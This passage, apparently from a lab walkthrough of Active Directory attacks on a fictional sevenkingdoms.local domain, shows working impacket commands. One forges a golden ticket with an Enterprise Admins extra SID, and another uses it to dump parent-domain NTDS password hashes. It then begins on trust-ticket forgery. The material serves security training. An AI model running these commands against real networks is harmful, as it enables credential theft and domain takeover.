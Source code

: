 
- And now create the golden ticket : we add “-519” at the end of the extra-sid (means enterprise admin) (list of domain SID here : [https://learn.microsoft.com/en-us/windows-server/identity/ad-ds/manage/understand-security-identifiers](https://learn.microsoft.com/en-us/windows-server/identity/ad-ds/manage/understand-security-identifiers))
```
impacket-ticketer -nthash ddf0463a1b031dad76011cb4611fe798 -domain-sid S-1-5-21-3063484405-1734582374-3186417267 -domain north.sevenkingdoms.local -extra-sid S-1-5-21-400042831-3601909111-1956920762-519 goldenuser
```
![screenshot](pics/creat_golden_ticket.png)


- And we use the ticket to dump the parent domain NTDS
```
export KRB5CCNAME=./goldenuser.ccache

impacket-secretsdump -k -no-pass -just-dc-ntlm  north.sevenkingdoms.local/goldenuser@kingslanding.sevenkingdoms.local
```
![screenshot](pics/secretdump_golden_ticket.png)


## Trust ticket - forge inter-realm TGT

- Another way to escalate from child to parent is by extracting the trust key and use it to create our trust ticket (a very good explanation and examples with Mimikatz can be found here : [https://adsecurity.org/?p=1588](https://adsecurity.org/?p=1588))
    